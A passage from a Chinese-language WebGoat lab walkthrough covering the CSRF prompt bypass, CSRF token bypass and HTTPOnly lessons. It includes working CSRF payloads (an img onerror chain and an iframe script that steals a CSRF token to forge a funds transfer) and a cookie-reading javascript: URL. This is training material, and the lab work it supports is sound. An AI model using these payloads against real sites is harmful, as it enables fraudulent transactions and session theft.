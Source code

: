 **注意修改IP和端口**
```
<img src="http://192.168.8.89:8080/WebGoat/attack?Screen=227&menu=900&transferFunds=5000" onerror="document.getElementById('image2').src='http://192.168.8.89:8080/WebGoat/attack?Screen=227&menu=900&transferFunds=CONFIRM'"> <imgid="image2">
```
![image]({path}/91.png)

![image]({path}/92.png)

## CSRF Token By-Pass
类似于CSRF课程，您的目标是向包含恶意请求转移资金的新闻组发送电子邮件。 要成功完成，您需要获取有效的请求令牌。 提供转账资金表单的页面包含一个有效的请求令牌。 转移资金页面的URL是本课程的“屏幕”和“菜单”查询参数以及额外的参数“transferFunds = main”的“攻击”servlet。 加载此页面，读取令牌，并在伪造的请求中附加令牌以传输数据。 当您认为攻击成功时，刷新页面，您将在左侧菜单中找到绿色检查。

**注意修改IP和端口**
```
<script>
var readToken = function(){
var doc = document.getElementById("frame1").contentDocument
var token = doc.getElementsByName("CSRFToken")[0].getAttribute("value");
alert(token);
var frame2 = document.getElementById("frame2");
frame2.src = "http://192.168.8.89:8080/WebGoat/attack?Screen=2&menu=900&transferFunds=4000&CSRFToken="+token;
}

</script>
<iframe id="frame2" >
</iframe>
<iframe id="frame1" onload="readToken()" src="http://192.168.8.89:8080/WebGoat/attack?Screen=2&menu=900&transferFunds=main" >
</iframe>
```

![image]({path}/93.png)

![image]({path}/94.png)

## HTTPOnly Test
为了帮助减轻跨站点脚本威胁，Microsoft已经推出了一个名为“HttpOnly”的新Cookie。 如果设置了此标志，则浏览器不允许客户端脚本访问该cookie。 由于属性相对较新，因此若干浏览器忽略了正确处理新属性。

有关受支持浏览器的列表，请参阅：OWASP HTTPOnly支持

一般目标：

本课的目的是测试您的浏览器是否支持HTTPOnly cookie标志。 注意unique2u cookie的值。 如果您的浏览器支持HTTPOnly，并且您启用Cookie，则客户端代码无法读取或写入该cookie，但浏览器仍可将其值发送到服务器。 某些浏览器只能防止客户端读取访问，但不要阻止写入访问。

打开HTTPOnly属性后，在浏览器地址栏中输入“javascript：alert（document.cookie）”。 注意除了unique2u cookie之外，所有Cookie都会显示。
